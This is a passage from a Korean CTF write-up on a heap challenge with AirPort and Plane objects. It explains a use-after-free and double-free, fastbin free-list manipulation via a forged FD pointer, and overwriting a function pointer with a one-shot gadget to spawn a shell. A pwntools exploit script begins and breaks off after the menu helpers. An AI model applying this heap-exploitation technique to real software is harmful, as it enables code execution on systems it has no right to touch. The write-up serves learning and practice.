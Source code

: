 ```
0xffffffffff600000 0xffffffffff601000 r-xp     1000 0      [vsyscall]
```

필요한 정보는 모두 얻었으니 이제 본격적으로 실행 흐름을 바꾸기 위한 공격을 진행해보도록 합니다.

먼저, 버그가 생기는 부분은 Plane을 해제 할 때 생깁니다. AirPort구조는 해제 후 해당 포인터를 초기화 하여 `UAF`버그가 생기지 않지만, Plane은 해제 후, 초기화를 하지 않아 `UAF` 버그가 발생됩니다. 또한 AirPort 자체는 `UAF` 버그가 발생하진 않지만 AirPort 객체 해제 시 해당 AirPort에 연결된 Plane을 또 해제 하면서 `double-free` 버그가 발생됩니다.

지금 까지의 플로우를 설명하면 다음과 같습니다.

1. Airport A, B, C 생성
2. plane a, b 생성 후, Airport C에 연결
3. Airport A, B 삭제
4. plane a 삭제                 ; free list (a)
5. plane b 삭제                 ; free list (b -> a)
6. AirPort C 삭제
  - AirPort C 에 연결된 a 삭제    ; free list (a -> b > -> a)
  - AirPort C 에 연결된 b 삭제    ; free list (b -> a -> b -> a)

실제 동작하는 방식은 조금 다르지만 쉽게 설명하기 위해 위와 같이 넣었습니다. 1~6까지 동작을 진행하면 결국 `free list`에 (b -> a -> b -> a)의 형태로 들어 가게 되는데 이게 의미하는 것은 다음 할당이 `b -> a -> b -> a` 식으로 이루어 진다는 의미 입니다.

이렇게 되면 처음 `b`에 할당할 때, `FD`값을 강제로 넣은 뒤, 다음 할당은 `a`에 할당되고 다시 `b`에 할당될 때, 이번에 할당되는 b는 처음 b에서 할당했던 `FD`값을 다음 할당 할 주소로 넣게 되어 결국 다음 할당 시 처음 `b`를 할당하면서 강제로 넣은 `FD`의 위치로 할당이 되게 됩니다.

이를 이용하여 힙의 할당 위치를 조작할 수 있고, 힙 메모리에 존재하는 `plane` 오브젝트의 함수 포인터를 `one-shot`으로 덮어 쉘을 얻을 수 있습니다.

한 가지 중요한 것은 할당 시, `할당 위치 - 0x8`에 `(할당 할 크기 >> 4)+1 == (할당 위치 - 0x8) >> 4`와 같아야 합니다. plane 객체의 크기가 0x48이기 때문에 해제 리스트는 `0x50 bins` 에 구성이 되게 됩니다. 따라서, `__malloc_hook, __free_hook` 등과 `@got` 영역에 할당 시키기가 까다롭습니다.

따라서, 마지막 `b`를 할당 시, `0x50 bins`에 해당하는 값을 만들어서 그쪽으로 할당을 하고 함수 포인터를 매직 가젯으로 덮으면 됩니다.

## Exploit code

```python
from pwn import *
import sys

context(arch='amd64', os='linux')

DEBUG = False
if len(sys.argv) == 2:
	DEBUG = True

def fn_buy(idx, name):
	p.sendline("1")
	recv = p.recv()
	if DEBUG: print recv

	p.sendline(str(idx))
	recv = p.recv()
	if DEBUG: print recv

	# len(max_name) == 0x20
	p.sendline(name)
	recv = p.recv()
	if DEBUG: print recv

def fn_build(n, name):
	p.sendline("2")
	recv = p.recv()
	if DEBUG: print recv

	p.sendline(str(n))
	recv = p.recv()
```